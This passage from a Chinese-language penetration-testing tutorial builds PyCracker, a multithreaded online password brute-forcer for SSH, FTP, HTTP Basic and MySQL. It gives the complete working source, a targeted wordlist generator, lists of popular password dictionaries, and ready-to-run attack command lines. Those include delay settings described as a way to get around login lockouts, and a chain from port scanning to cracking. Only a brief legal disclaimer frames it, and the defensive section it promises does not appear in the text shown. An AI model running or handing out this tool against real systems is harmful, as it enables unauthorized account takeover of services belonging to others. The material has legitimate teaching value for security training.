




## 案例三：密码破解工具

密码破解是渗透测试中最基础也最常见的攻击手法之一。本案例从零开始构建一个多协议密码破解工具 PyCracker，覆盖 SSH、FTP、HTTP Basic、MySQL 四种协议，深入讲解暴力破解与字典攻击的实现原理、并发模型设计、异常处理策略，并从防御视角分析如何检测和抵御此类攻击。

### 密码攻击基础理论

#### 暴力破解与字典攻击

密码攻击从策略上分为两大流派：

| 攻击策略 | 原理 | 适用场景 | 时间复杂度 |
|----------|------|----------|-----------|
| 暴力破解（Brute Force） | 遍历所有可能的字符组合 | 短密码、已知字符集 | O(n^m)，n=字符集大小，m=密码长度 |
| 字典攻击（Dictionary Attack） | 使用预编译的常见密码列表 | 弱密码、默认凭据 | O(k)，k=字典大小 |
| 混合攻击（Hybrid Attack） | 字典+规则变换（大小写、追加数字等） | 带常见变形的密码 | O(k × r)，r=规则数 |
| 彩虹表攻击（Rainbow Table） | 预计算哈希链查表 | 已获取哈希值的离线破解 | O(1)查表，O(2^n)预计算 |

纯暴力破解在密码长度超过 8 位时几乎不可行。以 94 个可打印 ASCII 字符为例：

- 6 位密码：94^6 ≈ 6898 亿种组合
- 8 位密码：94^8 ≈ 6.1 × 10^15 种组合
- 10 位密码：94^10 ≈ 5.4 × 10^19 种组合

因此实际渗透测试中，字典攻击和混合攻击是首选策略。只有在目标密码较短、字符集已知（如纯数字 PIN 码）时，暴力破解才有实用价值。

#### 在线破解与离线破解

本案例实现的是**在线破解**——通过网络协议逐个尝试用户名密码组合。这与离线破解（已获取密码哈希后本地穷举）有本质区别：



在线破解的核心瓶颈是**网络延迟**和**服务端限速**。每次尝试都需要完成完整的 TCP 握手、协议认证流程、等待响应，通常单次尝试耗时 50-500ms，远低于离线破解的每秒数十亿次哈希计算。因此优化并发模型是在线破解工具的核心课题。

#### 法律与伦理边界

在任何情况下，密码破解工具只能用于以下合法场景：

1. **授权渗透测试**：获得目标系统所有者的书面授权
2. **安全审计**：对企业内部系统进行合规检查
3. **密码恢复**：恢复自己遗忘的密码
4. **安全研究**：在隔离环境中进行学术研究

未经授权对他人系统进行密码破解属于违法行为，在中国依据《刑法》第 285 条（非法侵入计算机信息系统罪）和第 286 条（破坏计算机信息系统罪）可追究刑事责任。本案例仅用于安全教育目的。

### 工具架构设计

#### 整体架构

PyCracker 采用模块化设计，核心由四层组成：



各层职责分明：

- **接口层**：解析命令行参数，读取字典文件，校验输入合法性
- **调度层**：生成用户名-密码组合任务，分发到线程池执行
- **协议层**：封装各协议的认证尝试逻辑，统一返回成功/失败
- **控制层**：进度显示、结果汇总、发现凭据后提前终止所有线程

#### 线程同步模型

多线程并发破解的关键挑战是线程安全。本工具使用三个同步机制：

1. **Queue（任务队列）**：线程安全的 FIFO 队列，存储所有待尝试的用户名密码组合。多线程通过 `get_nowait()` 原子操作获取任务，天然避免重复分配
2. **Lock（互斥锁）**：保护共享状态（尝试计数器 `attempts` 和破解结果 `found`）的读写一致性
3. **标志变量（`self.found`）**：一旦某个线程发现有效凭据，其他线程通过检测此标志提前退出



### 完整代码实现

#### 核心类：Cracker

```python
#!/usr/bin/env python3
"""
PyCracker - 多协议密码破解工具
支持：SSH、FTP、HTTP Basic、MySQL

用法示例：
  python3 pycracker.py -t 192.168.1.100 -p 22 --protocol ssh \
      -U usernames.txt -P passwords.txt -T 20

依赖安装：
  pip install paramiko requests pymysql
"""

import paramiko
import ftplib
import requests
import argparse
import threading
from queue import Queue
import time
import sys
import logging

# 抑制 HTTPS 警告（渗透测试中常见自签名证书场景）
requests.packages.urllib3.disable_warnings(
    requests.packages.urllib3.exceptions.InsecureRequestWarning
)

# 日志配置 —— 详细日志用于调试，可通过 -v 参数开启
logging.basicConfig(
    format='%(asctime)s [%(levelname)s] %(message)s',
    datefmt='%H:%M:%S'
)
logger = logging.getLogger('PyCracker')


class Cracker:
    """
    多协议密码破解引擎

    核心设计：
    1. 协议层通过函数字典映射，新增协议只需添加 try_xxx 方法
    2. 任务队列 + 线程池实现并发，Queue 天然线程安全
    3. 双重锁保护：found 检查 + 赋值不是原子操作，必须加锁
    4. delay 参数用于对抗登录锁定策略

    属性:
        target (str): 目标主机地址
        port (int): 目标端口
        threads (int): 并发线程数，默认 10
        delay (float): 每次尝试后的延迟秒数，用于绕过限速
        found (tuple|None): 发现的凭据 (username, password)
        attempts (int): 已尝试次数
        lock (threading.Lock): 线程锁
    """

    def __init__(self, target, port, threads=10, delay=0):
        self.target = target
        self.port = port
        self.threads = threads
        self.delay = delay
        self.found = None
        self.attempts = 0
        self.lock = threading.Lock()
        self.stop_event = threading.Event()

    # ──────────────────────────────────────────────
    # 协议实现层 —— 每个方法对应一种认证协议
    # ──────────────────────────────────────────────

    def try_ssh(self, username, password):
        """
        尝试 SSH 密码认证

        流程：创建 SSHClient → 设置自动接受主机密钥 → 连接 → 关闭
        关键参数：
        - timeout=5：避免单次连接阻塞过久
        - AutoAddPolicy：渗透测试场景下自动信任未知主机密钥
          （生产环境应使用 RejectPolicy 或自定义策略）

        异常处理：
        - AuthenticationException：凭据错误，返回 False（预期行为）
        - 其他异常（网络超时、连接拒绝等）：返回 False 并记录日志
        """
        client = None
        try:
            client = paramiko.SSHClient()
            client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            client.connect(
                self.target,
                port=self.port,
                username=username,
                password=password,
                timeout=5,
                banner_timeout=10,      # SSH banner 等待超时
                auth_timeout=10,         # 认证过程超时
                allow_agent=False,       # 禁用 SSH agent，避免干扰
                look_for_keys=False      # 禁用密钥文件查找
            )
            return True
        except paramiko.AuthenticationException:
            return False
        except paramiko.SSHException as e:
            logger.debug(f"SSH 异常 [{username}:{password}]: {e}")
            return False
        except Exception as e:
            logger.debug(f"SSH 连接失败 [{username}:{password}]: {e}")
            return False
        finally:
            if client:
                try:
                    client.close()
                except Exception:
                    pass

    def try_ftp(self, username, password):
        """
        尝试 FTP 密码认证

        FTP 认证流程：连接 → USER username → PASS password
        ftplib.FTP.login() 封装了以上步骤

        注意事项：
        - 某些 FTP 服务器在多次失败后会主动断开连接
        - 匿名 FTP 通常使用用户名 'anonymous'，密码任意或空
        - FTP 协议明文传输，密码在网路上可被嗅探
        """
        ftp = None
        try:
            ftp = ftplib.FTP()
            ftp.connect(self.target, self.port, timeout=5)
            ftp.login(username, password)
            return True
        except ftplib.error_perm:
            # 530 Login incorrect —— 凭据错误（预期行为）
            return False
        except Exception as e:
            logger.debug(f"FTP 连接失败 [{username}:{password}]: {e}")
            return False
        finally:
            if ftp:
                try:
                    ftp.quit()
                except Exception:
                    try:
                        ftp.close()
                    except Exception:
                        pass

    def try_http_basic(self, username, password):
        """
        尝试 HTTP Basic 认证

        HTTP Basic 认证原理：
        1. 客户端发送请求到受保护资源
        2. 服务端返回 401 Unauthorized + WWW-Authenticate: Basic realm="..."
        3. 客户端将 username:password 进行 Base64 编码，放入 Authorization 头
        4. 服务端验证凭据，返回 200 或 401

        requests 库的 auth 参数自动处理步骤 2-3。

        判断逻辑优化：
        - 200：认证成功
        - 401：认证失败
        - 403：认证成功但无权限（凭据有效，仍记录）
        - 其他：网络错误或服务异常
        """
        try:
            resp = requests.get(
                f"http://{self.target}:{self.port}",
                auth=(username, password),
                timeout=5,
                verify=False,              # 忽略 SSL 证书验证
                allow_redirects=True       # 跟随重定向
            )
            # 200=成功, 403=凭据有效但无权限（也算找到凭据）
            return resp.status_code in (200, 403)
        except requests.exceptions.ConnectionError:
            logger.debug(f"HTTP 连接失败: {self.target}:{self.port}")
            return False
        except requests.exceptions.Timeout:
            logger.debug(f"HTTP 请求超时: {username}:{password}")
            return False
        except Exception as e:
            logger.debug(f"HTTP 异常 [{username}:{password}]: {e}")
            return False

    def try_mysql(self, username, password):
        """
        尝试 MySQL 密码认证

        MySQL 认证流程（简化）：
        1. 服务端发送握手包（salt + server version）
        2. 客户端发送认证响应（username + 加密后的 password）
        3. 服务端验证，返回 OK 或 ERR

        注意：MySQL 默认允许 'root'@'localhost' 无密码登录，
        远程连接通常需要 GRANT 权限。如果连接被拒绝（而非认证失败），
        说明目标不允许远程连接，应跳过。
        """
        try:
            import pymysql
            conn = pymysql.connect(
                host=self.target,
                port=self.port,
                user=username,
                password=password,
                connect_timeout=5,
                read_timeout=5
            )
            conn.close()
            return True
        except pymysql.err.OperationalError as e:
            # 错误码 1045 = Access Denied（凭据错误）
            # 错误码 2003 = Can't connect（连接被拒，非凭据问题）
            error_code = e.args[0] if e.args else 0
            if error_code == 2003:
                logger.warning(f"MySQL 连接被拒绝: {self.target}:{self.port}")
                return False
            return False
        except ImportError:
            logger.error("未安装 pymysql，请执行: pip install pymysql")
            sys.exit(1)
        except Exception as e:
            logger.debug(f"MySQL 异常 [{username}:{password}]: {e}")
            return False

    # ──────────────────────────────────────────────
    # 协议注册表 —— 新增协议只需在此添加映射
    # ──────────────────────────────────────────────

    PROTOCOL_MAP = None  # 延迟初始化，避免类加载时的依赖问题

    def _get_protocol_func(self, protocol):
        """根据协议名获取对应的尝试函数"""
        if self.PROTOCOL_MAP is None:
            self.PROTOCOL_MAP = {
                'ssh': self.try_ssh,
                'ftp': self.try_ftp,
                'http': self.try_http_basic,
                'mysql': self.try_mysql,
            }
        func = self.PROTOCOL_MAP.get(protocol.lower())
        if not func:
            available = ', '.join(self.PROTOCOL_MAP.keys())
            raise ValueError(f"不支持的协议: {protocol}，可用: {available}")
        return func

    # ──────────────────────────────────────────────
    # 调度引擎 —— 任务生成、线程管理、进度控制
    # ──────────────────────────────────────────────

    def crack(self, protocol, usernames, passwords):
        """
        执行密码破解

        流程：
        1. 验证协议支持
        2. 生成笛卡尔积任务队列（所有 user × pwd 组合）
        3. 启动 N 个 worker 线程并发消费队列
        4. 等待所有线程结束
        5. 输出结果统计

        Args:
            protocol: 协议名称 (ssh/ftp/http/mysql)
            usernames: 用户名列表
            passwords: 密码列表

        Returns:
            tuple|None: 成功返回 (username, password)，失败返回 None
        """
        try_func = self._get_protocol_func(protocol)

        # ── 初始化 ──
        self.found = None
        self.attempts = 0
        self.stop_event.clear()

        # ── 构建任务队列 ──
        tasks = Queue()
        for user in usernames:
            user = user.strip()
            if not user or user.startswith('#'):
                continue
            for pwd in passwords:
                pwd = pwd.strip()
                # 不跳过空密码 —— 某些服务允许空密码登录
                tasks.put((user, pwd))

        total = tasks.qsize()
        if total == 0:
            logger.error("任务队列为空，请检查字典文件")
            return None

        # ── 打印启动信息 ──
        print(f"\n{'='*60}")
        print(f"  PyCracker - {protocol.upper()} 密码破解")
        print(f"{'='*60}")
        print(f"  目标:    {self.target}:{self.port}")
        print(f"  用户名:  {len(usernames)} 个")
        print(f"  密码:    {len(passwords)} 个")
        print(f"  组合数:  {total}")
        print(f"  线程数:  {self.threads}")
        print(f"  延迟:    {self.delay}s")
        print(f"{'='*60}\n")

        start_time = time.time()

        # ── Worker 函数 ──
        def worker():
            """线程工作函数：从队列取任务 → 尝试认证 → 检查终止条件"""
            while not self.stop_event.is_set():
                try:
                    user, pwd = tasks.get_nowait()
                except Exception:
                    break  # 队列为空，退出

                # 更新进度计数
                with self.lock:
                    self.attempts += 1
                    current = self.attempts

                # 每 50 次尝试打印一次进度（避免 I/O 开销过大）
                if current % 50 == 0:
                    elapsed = time.time() - start_time
                    rate = current / elapsed if elapsed > 0 else 0
                    eta = (total - current) / rate if rate > 0 else 0
                    print(
                        f"  [~] 进度: {current}/{total} "
                        f"({rate:.0f}/s) "
                        f"ETA: {eta:.0f}s",
                        end='\r'
                    )

                # 延迟控制 —— 对抗登录锁定
                if self.delay > 0:
                    time.sleep(self.delay)

                # 尝试认证
                try:
                    success = try_func(user, pwd)
                except Exception as e:
                    logger.debug(f"认证异常: {e}")
                    success = False

                if success:
                    with self.lock:
                        if not self.found:
                            self.found = (user, pwd)
                            print(f"\n\n  {'!'*50}")
                            print(f"  [+] 找到有效凭据: {user}:{pwd}")
                            print(f"  {'!'*50}\n")
                            self.stop_event.set()  # 通知其他线程停止
                    return

        # ── 启动线程 ──
        num_workers = min(self.threads, total)
        thread_list = []
        for i in range(num_workers):
            t = threading.Thread(target=worker, name=f"Worker-{i}")
            t.daemon = True  # 守护线程，主进程退出时自动结束
            t.start()
            thread_list.append(t)

        # 等待所有线程完成
        for t in thread_list:
            t.join(timeout=300)  # 5 分钟超时保护

        # ── 结果统计 ──
        elapsed = time.time() - start_time
        rate = self.attempts / elapsed if elapsed > 0 else 0

        print(f"\n{'='*60}")
        print(f"  破解完成")
        print(f"  耗时:    {elapsed:.2f}s")
        print(f"  尝试:    {self.attempts} 次")
        print(f"  速率:    {rate:.0f} 次/秒")

        if self.found:
            print(f"  结果:    {self.found[0]}:{self.found[1]}")
        else:
            print(f"  结果:    未找到有效凭据")
        print(f"{'='*60}\n")

        return self.found


# ──────────────────────────────────────────────
# 字典文件处理
# ──────────────────────────────────────────────

def load_wordlist(filepath, label="字典"):
    """
    加载字典文件，自动处理编码和格式问题

    处理逻辑：
    1. 尝试 UTF-8 编码读取，失败则回退 GBK（中文环境常见）
    2. 过滤空行和注释行（# 开头）
    3. 去除行尾换行符和空白
    4. 去重（保持顺序）

    Args:
        filepath: 字典文件路径
        label: 标签，用于日志输出

    Returns:
        list: 去重后的条目列表
    """
    lines = []
    encodings = ['utf-8', 'gbk', 'latin-1']

    for enc in encodings:
        try:
            with open(filepath, 'r', encoding=enc) as f:
                lines = f.readlines()
            break
        except UnicodeDecodeError:
            continue
        except FileNotFoundError:
            logger.error(f"文件不存在: {filepath}")
            sys.exit(1)

    if not lines:
        logger.error(f"无法读取文件: {filepath}")
        sys.exit(1)

    # 过滤和去重
    seen = set()
    result = []
    for line in lines:
        line = line.strip()
        if not line or line.startswith('#'):
            continue
        if line not in seen:
            seen.add(line)
            result.append(line)

    print(f"  已加载 {label}: {filepath} ({len(result)} 条)")
    return result


# ──────────────────────────────────────────────
# CLI 入口
# ──────────────────────────────────────────────

def main():
    """
    命令行入口

    使用示例：
      # SSH 破解
      python3 pycracker.py -t 192.168.1.100 -p 22 --protocol ssh \
          -U users.txt -P passwords.txt -T 20

      # FTP 破解，带延迟
      python3 pycracker.py -t 10.0.0.5 -p 21 --protocol ftp \
          -U users.txt -P passwords.txt --delay 1.5

      # HTTP Basic 认证破解
      python3 pycracker.py -t example.com -p 8080 --protocol http \
          -U admin.txt -P rockyou.txt

      # MySQL 远程破解
      python3 pycracker.py -t 192.168.1.200 -p 3306 --protocol mysql \
          -U root.txt -P common_passwords.txt -T 5
    """
    parser = argparse.ArgumentParser(
        description='PyCracker - 多协议密码破解工具',
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog="""
示例:
  %(prog)s -t 192.168.1.100 -p 22 --protocol ssh -U users.txt -P pass.txt
  %(prog)s -t 10.0.0.5 -p 21 --protocol ftp -U users.txt -P pass.txt --delay 1
        """
    )

    parser.add_argument('-t', '--target', required=True,
                        help='目标主机地址')
    parser.add_argument('-p', '--port', type=int, required=True,
                        help='目标端口')
    parser.add_argument('--protocol', required=True,
                        choices=['ssh', 'ftp', 'http', 'mysql'],
                        help='认证协议')
    parser.add_argument('-U', '--userlist', required=True,
                        help='用户名字典文件路径')
    parser.add_argument('-P', '--passlist', required=True,
                        help='密码字典文件路径')
    parser.add_argument('-T', '--threads', type=int, default=10,
                        help='并发线程数 (默认: 10)')
    parser.add_argument('--delay', type=float, default=0,
                        help='每次尝试间隔秒数 (默认: 0)')
    parser.add_argument('-v', '--verbose', action='store_true',
                        help='显示详细调试信息')

    args = parser.parse_args()

    # 设置日志级别
    if args.verbose:
        logger.setLevel(logging.DEBUG)
    else:
        logger.setLevel(logging.INFO)

    # 加载字典
    print(f"\n[*] 正在加载字典文件...")
    usernames = load_wordlist(args.userlist, "用户名")
    passwords = load_wordlist(args.passlist, "密码")

    if not usernames:
        logger.error("用户名字典为空")
        sys.exit(1)
    if not passwords:
        logger.error("密码字典为空")
        sys.exit(1)

    # 创建破解器并执行
    cracker = Cracker(
        target=args.target,
        port=args.port,
        threads=args.threads,
        delay=args.delay
    )

    result = cracker.crack(args.protocol, usernames, passwords)

    # 退出码：找到凭据返回 0，未找到返回 1
    sys.exit(0 if result else 1)


if __name__ == '__main__':
    main()
```

#### 代码关键设计解析

上述代码相比初级实现做了多项改进，下面逐一说明设计理由：

**1. `finally` 块关闭连接**

```python
# 错误写法 —— 异常时连接泄漏
def try_ssh(self, username, password):
    client = paramiko.SSHClient()
    client.connect(...)
    client.close()
    return True

# 正确写法 —— finally 确保连接释放
def try_ssh(self, username, password):
    client = None
    try:
        client = paramiko.SSHClient()
        client.connect(...)
        return True
    finally:
        if client:
            client.close()
```

大量并发连接如果不及时关闭，会耗尽文件描述符（默认 ulimit 1024），导致后续连接全部失败。在破解数千个组合时这个问题必然出现。

**2. `stop_event` 替代直接检查 `self.found`**

原始代码中 worker 循环检查 `self.found`：

```python
# 有问题：found 的读写存在竞态条件
while not tasks.empty() and not self.found:
```

改进版使用 `threading.Event`：

```python
# 线程安全：Event.set() 是原子操作
if success:
    self.stop_event.set()  # 所有等待的线程立即收到通知
```

`Event` 比直接检查变量的优势在于：`Event.wait()` 可以阻塞等待，避免忙轮询浪费 CPU。

**3. 异常分类处理**

```python
# 原始代码的 bare except 会吞掉所有异常
except:
    return False

# 改进版：区分已知异常和未知异常
except paramiko.AuthenticationException:
    return False          # 凭据错误，预期行为
except paramiko.SSHException as e:
    logger.debug(...)     # SSH 协议异常，记录但不中断
    return False
except Exception as e:
    logger.debug(...)     # 其他异常，记录排查
    return False
```

bare except 不仅会吞掉键盘中断（`KeyboardInterrupt`），还会隐藏真正的 bug，比如 `paramiko` 版本不兼容导致的 `AttributeError`。

**4. 守护线程设置**

```python
t.daemon = True
```

如果不设为守护线程，当主线程因 `KeyboardInterrupt` 退出时，所有 worker 线程仍在运行，程序无法正常终止。设为守护线程后，主线程退出时 worker 自动终止。

### 常用字典资源

字典质量直接决定破解成功率。以下是经过实战验证的字典资源：

| 字典名称 | 条目数 | 大小 | 用途 | 来源 |
|----------|--------|------|------|------|
| rockyou.txt | 14,341,564 | 133MB | 通用密码字典，渗透测试标配 | Kali Linux 默认 |
| Top1000 | 1,000 | ~10KB | 快速尝试最常见的弱密码 | SecLists |
| DefaultCreds | ~2,000 | ~50KB | 设备/软件默认凭据 | github.com/ihebski/DefaultCreds-cheat-sheet |
| xato-net-10M | 10,000,000 | ~80MB | 超大规模密码库 | SecLists |
| usernames.txt | ~10,000 | ~100KB | 常见系统用户名 | SecLists |

SecLists 项目（https://github.com/danielmiessler/SecLists）是渗透测试字典的权威来源，建议完整克隆到本地。

#### 字典优化策略

直接使用通用字典效率低，针对目标定制字典能大幅提升成功率：

```python
def generate_targeted_wordlist(base_words, target_info):
    """
    基于目标信息生成定制字典

    常见规则：
    1. 原词 + 年份后缀：password → password2024, password2025
    2. 原词 + 常见数字：admin → admin123, admin1234, admin888
    3. 原词大小写变换：password → Password, PASSWORD, pAssword
    4. 目标相关词汇：公司名、域名、生日等
    5. l33t 变换：password → p@ssw0rd, pa$$word

    Args:
        base_words: 基础词列表
        target_info: 目标相关信息字典（域名、公司名等）

    Returns:
        list: 变换后的密码列表
    """
    import itertools

    suffixes = [
        '', '1', '12', '123', '1234', '12345', '123456',
        '!', '@', '#', '!!', '!!!',
        '2024', '2025', '2026',
        '01', '666', '888', '520',
    ]

    leet_map = {
        'a': '@', 'e': '3', 'i': '1', 'o': '0',
        's': '$', 't': '7', 'l': '1',
    }

    result = set()
    for word in base_words:
        # 原词 + 后缀
        for suffix in suffixes:
            result.add(word + suffix)
        # 首字母大写
        result.add(word.capitalize())
        # 全大写
        result.add(word.upper())
        # l33t 变换
        leet_word = word
        for char, replacement in leet_map.items():
            leet_word = leet_word.replace(char, replacement)
        result.add(leet_word)

    # 目标相关词汇
    for key, value in target_info.items():
        if value and len(value) >= 3:
            result.add(value.lower())
            result.add(value.capitalize())
            for suffix in suffixes[:10]:
                result.add(value.lower() + suffix)

    return sorted(result)
```

### 使用实战指南

#### 基本用法

```bash
# SSH 破解 —— 最常见的场景
python3 pycracker.py \
    -t 192.168.1.100 \
    -p 22 \
    --protocol ssh \
    -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt \
    -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt \
    -T 20

# FTP 破解 —— 带延迟防止锁定
python3 pycracker.py \
    -t 10.0.0.5 \
    -p 21 \
    --protocol ftp \
    -U users.txt \
    -P passwords.txt \
    --delay 1.5 \
    -T 5

# HTTP Basic 认证破解
python3 pycracker.py \
    -t internal-app.company.com \
    -p 8080 \
    --protocol http \
    -U admin.txt \
    -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt

# MySQL 远程破解（低线程 + 延迟，MySQL 对连接频率敏感）
python3 pycracker.py \
    -t 192.168.1.200 \
    -p 3306 \
    --protocol mysql \
    -U root.txt \
    -P rockyou.txt \
    -T 3 \
    --delay 2 \
    -v  # 开启调试模式查看详细错误
```

#### 高级技巧

**1. 配合端口扫描器使用**

先用前一个案例的端口扫描器确认目标开放了哪些服务，再针对性破解：

```bash
# 第一步：扫描目标
python3 port_scanner.py -t 192.168.1.100 -p 21,22,80,3306

# 第二步：根据扫描结果逐一破解
# 假设发现 22(SSH) 和 21(FTP) 开放
python3 pycracker.py -t 192.168.1.100 -p 22 --protocol ssh -U users.txt -P pass.txt
python3 pycracker.py -t 192.168.1.100 -p 21 --protocol ftp -U users.txt -P pass.txt
```

